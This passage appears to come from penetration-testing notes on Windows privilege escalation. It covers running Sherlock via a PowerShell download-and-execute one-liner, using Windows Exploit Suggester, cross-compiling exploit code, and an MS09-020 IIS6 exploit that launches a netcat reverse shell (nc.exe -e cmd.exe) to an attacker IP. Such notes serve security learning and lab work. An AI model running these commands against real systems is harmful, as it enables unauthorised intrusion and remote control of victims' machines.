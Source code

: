Once added, we just need to start http server and executed directly from powershell.

```
powershell.exe IEX(New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/Sherlock.ps1')
```

* [https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)

## Suggester

`windows-exploit-suggester.py` or `wesng` are amazing scripts that do this work.

* [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

> **Remember** to update the database.

```
./windows-exploit-suggester.py --update
```

We just need to execute `systeminfo` and save the output into a file on the windows target machine.

```
systeminfo > systeminfo.txt
```

Once downloaded to our attacking machine we just need to execute the following command:

```
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt
```

## Compiling Exploits

Sometimes we need to compile our exploits in order to get the binary or executable.

For **64-bits:**

```
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe
```

For **32-bits:**

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe
```

## MS09-20

```
/opt/windows-kernel-exploits/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6/IIS6.0.exe

Usage:
.\IIS6.0.exe "c:\windows\temp\nc.exe -e cmd.exe 10.10.14.15 4444"
```
